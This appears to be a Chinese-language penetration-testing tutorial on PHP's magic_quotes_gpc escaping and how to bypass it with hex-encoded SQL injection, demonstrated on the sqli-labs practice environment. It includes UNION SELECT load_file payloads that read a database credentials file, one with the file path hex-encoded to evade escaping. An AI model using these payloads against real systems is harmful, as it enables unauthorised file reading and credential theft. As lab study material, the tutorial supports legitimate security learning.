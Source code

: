 ### 常见读写文件问题：PHP魔术引号开关

#### magic_quotes_gpc开关

`magic_quotes_gpc`函数在php中的作用是判断解析用户提示的数据，如包括有：`post`、`get`、`cookie`过来的数据增加转义字符“\”，对POST、POST、__GET以及进行数据库操作的sql进行转义处理，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。防止sql注入

当magic_quotes_gpc = On时，输入数据中含**单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）**等字符，都会被加上反斜线。这些转义是必须的。

php中的`magic_quotes_gpc`是配置在php.ini中。

#### 魔术引号绕过——编码或宽字节绕过

##### 编码绕过

将要写入的目录/路径进行十六进制编码后在注入点处写入，SQL可以执行十六进制编码的SQL语句，而且由于进行了编码，`magic_quotes_gpc`开关不会对十六进制编码中的特定字符进行过滤。

###### 编码绕过演示

开启`magic_quotes_gpc`开关

经过尝试在phpstudy中较高版本开启`magic_quotes_gpc`开关后访问网站会报Internal Server Error错误

需要切换PHP版本到**PHP-5.2.17**才可以

经过查询`magic_quotes_gpc`开关在高版本的PHP中已经移除。。。

![](https://gitee.com/YatJay/image/raw/master/img/202201312146770.png)

![](https://gitee.com/YatJay/image/raw/master/img/202201312048963.png)

**注意：sqlilabs-Lesson-1的SQL语句闭合需要单引号，若开启魔术引号则无法使用编码绕过故以下演示使用sqlilabs-Lesson-2**

常规文件读写操作

```sql
?id=-1 union select 1, load_file('D:\\JayProgram\\PHPstudy\\PHPTutorial\\WWW\\PenTest\\sqlilabs\\sql-connections\\db-creds.inc') ,3
```

![](https://gitee.com/YatJay/image/raw/master/img/202201312246861.png)

![](https://gitee.com/YatJay/image/raw/master/img/202201312148474.png)

可见输入数据中含**单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）**等字符，都被加上了反斜线，并不会执行SQL注入语句。

对SQL语句进行十六进制编码，在执行时函数参数不要加单引号，直接把不带引号的路径的十六进制结果写在参数位置上进行提交：

![](https://gitee.com/YatJay/image/raw/master/img/202201312315862.png)

```sql
?id=-1 union select 1, load_file(0x443A5C5C4A617950726F6772616D5C5C50485073747564795C5C5048505475746F7269616C5C5C5757575C5C50656E546573745C5C73716C696C6162735C5C73716C2D636F6E6E656374696F6E735C5C64622D63726564732E696E63),3
```

![](https://gitee.com/YatJay/image/raw/master/img/202201312312564.png)
